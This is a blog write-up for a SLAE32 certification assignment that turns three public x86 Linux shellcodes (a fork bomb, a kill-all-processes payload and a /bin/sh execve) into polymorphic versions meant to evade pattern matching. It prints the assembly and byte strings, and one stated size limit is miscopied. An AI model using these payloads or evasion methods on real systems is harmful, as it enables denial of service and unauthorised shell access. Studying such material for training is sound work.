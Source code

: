 ```yaml
---
layout: single
title: Polymorphic Shellcodes- SLAE32 Sixth Exam Assignment
date: 2020-7-04
classes: wide
header:
  teaser: /assets/images/polymorph.jpg
tags:
  -SLAE
--- 
```


## Introduction
Hello Everyone!
This blog post is dedicated to Assignment 6 of the SLAE32 Exam, which is to create 3 different polymorphic shellcodes from shell-storm.


<p align="center"> 
<img src="https://raw.githubusercontent.com/NagliNagli/naglinagli.github.io/master/images/polymorph.jpg">
</p>

## Assignment 6 - Creating polymorphic shellcodes from Shell-Storm


There are 2 main instructions provided to us in this assignment:
- [ ] Pick 3 shellcode samples from Shell-Storm and create polymorphic versions of them to beat pattern matching
- [ ] The polymorphic version cannot be larger than 150% of the existing shellcode

The 3 payloads which i have decided to focus on are:

- [ ] x86/forkbomb
- [ ] x86/killps
- [ ] x86/execve_bin/sh 

## forkbomb Shellcode

In computing, a fork bomb is a denial-of-service attack wherein a process continually replicates itself to deplete available system resources, slowing down or crashing the system due to resource starvation.

![forkbomb](/images/forkbomb.png)

The original shellcode length is 7 bytes, and is presented below:

```c
"\x6a\x02\x58\xcd\x80\xeb\xf9"
```

The original forkbomb.nasm code:

```c
/* By Kris Katterjohn 8/29/2006
 *
 * 7 byte shellcode for a forkbomb
 *
 *
 *
 * section .text
 *
 *      global _start
 *
 * _start:
 *      push byte 2
 *      pop eax
 *      int 0x80
 *      jmp short _start
 */
```

I have decided to change the code to the following:

```c
section .text

    global _start

_start:
	xor eax, eax
	inc eax
	inc eax
        push eax
   	pop eax
      	int 0x80
        jmp short _start
```

Now , i have to check my new shellcode length, and to see that i didn't exceed the req's of 150% maximum (which is >=11)

The new shellcode:
```c
\x31\xc0\x40\x40\x50\x58\xcd\x80\xeb\xf6
```

Which is as we can see 10 bytes long, now let's check if the fork bomb still work's properly.

![polyfork](/images/polyfork.png)

And it is indeed working! we can see how the CPU is being flooded to 100% usage!

## killps Shellcode

The following shellcode will kill all running process within the system.

The original shellcode length is 11 bytes, and is presented below:

```c
 "\x31\xc0\xb0\x25\x6a\xff\x5b\xb1\x09\xcd\x80" 
```

The original killps.nasm code:

```c
Title  : kill all running process 
Name   : 11 bytes sys_kill(-1,9) x86 linux shellcode
Date   : may, 31 2010
Author : gunslinger_
Web    : devilzc0de.com
blog   : gunslingerc0de.wordpress.com
tested on : ubuntu linux
*/
#include <stdio.h>

char *killer=
 "\x31\xc0"                    /* xor    %eax,%eax */
 "\xb0\x25"                    /* mov    $0x25,%al */
 "\x6a\xff"                    /* push   $0xffffffff */
 "\x5b"                        /* pop    %ebx */
 "\xb1\x09"                    /* mov    $0x9,%cl */
 "\xcd\x80"                    /* int    $0x80 */
```

I have decided to change the code to the following:

```c
section .text

    global _start

_start:
	sub eax, eax
	mov al, 0x23
	inc al
	inc al
	push 0xffffffff
	pop ebx
	mov cl, 0x9
	int 0x80
```

Now , i have to check my new shellcode length, and to see that i didn't exceed the req's of 150% maximum (which is >=17)

The new shellcode:
```c
"\x29\xc0\xb0\x23\xfe\xc0\xfe\xc0\x6a\xff\x5b\xb1\x09\xcd\x80"
```

Which is as we can see 15 bytes long, now let's check if the killps shellcode still work's properly.

![killps](/images/killps.gif)

And it is indeed working! we can see how we are being kicked out frm the system

## execve /bin/sh

The following shellcode will execbute /bin/sh.

The original shellcode length is 23 bytes, and is presented below:

```c
 ""\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"; 
```

The original execve.nasm code:

```c
xor    %eax,%eax
push   %eax
push   $0x68732f2f
push   $0x6e69622f
mov    %esp,%ebx
push   %eax
push   %ebx
mov    %esp,%ecx
mov    $0xb,%al
int    $0x80
```

I have decided to change the code to the following:

```c
global _start

section .text

_start:
	sub eax, eax
	push eax
	push 0x68732f2f
	push 0x6e69622f
	mov ebx, esp
	inc eax
	dec eax
	push eax
	push ebx
	mov ecx, esp
	mov al, 0xa
	inc al
	int 0x80
```

Now , i have to check my new shellcode length, and to see that i didn't exceed the req's of 150% maximum (which is >=17)

The new shellcode:
```c
""\x29\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x40\x48\x50\x53\x89\xe1\xb0\x0a\xfe\xc0\xcd\x80""
```

Which is as we can see 27 bytes long, now let's check if the execve shellcode still work's properly.

![27execve](/images/27execve.png)

And it is indeed working! we can see how we are executing the /bin/sh!

And that's it for the sixth assignment!

## References

* forkbomb explanation - 
* forkbomb - <https://en.wikipedia.org/wiki/Fork_bomb>
* killps - <http://shell-storm.org/shellcode/files/shellcode-626.php>
* execve_bin/sh - <http://shell-storm.org/shellcode/files/shellcode-827.php>

## Wrap-Up
This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification

<https://www.pentesteracademy.com/course?id=3>

Student ID: SLAE - 1543

All the source code which i have used throughout the assignment is available here: <https://github.com/NagliNagli/SLAE/tree/master/Polymorphic>

Cheers,
Gal.
